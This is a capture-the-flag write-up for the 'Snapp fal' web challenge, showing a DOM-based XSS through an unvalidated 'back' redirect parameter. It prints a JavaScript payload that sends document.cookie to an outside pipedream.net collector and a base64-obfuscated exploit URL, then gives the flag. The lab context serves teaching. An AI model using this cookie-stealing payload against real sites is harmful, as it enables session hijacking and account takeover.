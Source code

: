 ```yaml
---
showFullContent: false
readingTime: true
---
```


## Snapp fal

```
From now on Snapp can offer you fals if you want.

[Download attachments](https://snappctf.com/tasks/snappfal_0bfd799152fef7299463752d840c3225f64cb259.txz)

**Notes for beginners**

-[https://portswigger.net/web-security/cross-site-scripting/dom-based](https://portswigger.net/web-security/cross-site-scripting/dom-based)

-You need to get XSS on https://snappfal.spchallenge.ir/

-When you got it, report your payload to https://snappfal-support.spchallenge.ir/

-A virtual browser will visit your payload... flag is in the cookies of `snappfal.spchallenge.ir`. Simply write a payload that steals `document.cookie` and submit the payload to [https://snappfal-support.spchallenge.ir/](https://snappfal-support.spchallenge.ir/).

-If your payload doesn't work on Admin bot, contact support.

-Admin closes the browser after 5 seconds.

-`src.js` is the source code of the website.

-`bot.js` is the script that controls the virtual browser ( You can ignore it ).
```

when we visit the website we encounter a page like this

![Pasted image 20240225002811.png](./Pasted image 20240225002811.png)

## Solution

if we click on the button it will be like this for a few seconds and the redirects us to previous page

![Pasted image 20240225002857.png](./Pasted image 20240225002857.png)
if wee look at the page source

![Pasted image 20240225002941.png](./Pasted image 20240225002941.png)

![Pasted image 20240225003052.png](./Pasted image 20240225003052.png)

the input parameter back is for redirecting the user to an arbitrary page. so we can cause a dom-based XSS here by using javascript schema

![Pasted image 20240225003200.png](./Pasted image 20240225003200.png)

the goal of the challenge is to read the flag which is inside admin's cookie

![Pasted image 20240225003246.png](./Pasted image 20240225003246.png)

I used this payload to redirect admin back to my server containing it's cookie as query string

```js
window.location="https://eowlxdv1oni96il.m.pipedream.net/?f="+document.cookie
```

and the finalized url is

```
https://snappfal.spchallenge.ir/fal?back=javascript:eval(atob(%27d2luZG93LmxvY2F0aW9uPSJodHRwczovL2Vvd2x4ZHYxb25pOTZpbC5tLnBpcGVkcmVhbS5uZXQvP2Y9Iitkb2N1bWVudC5jb29raWUK%27))
```

![Pasted image 20240225003815.png](./Pasted image 20240225003815.png)

```
SNAPP{89d36f80b85bde916fbdeb8592c1b368}
```
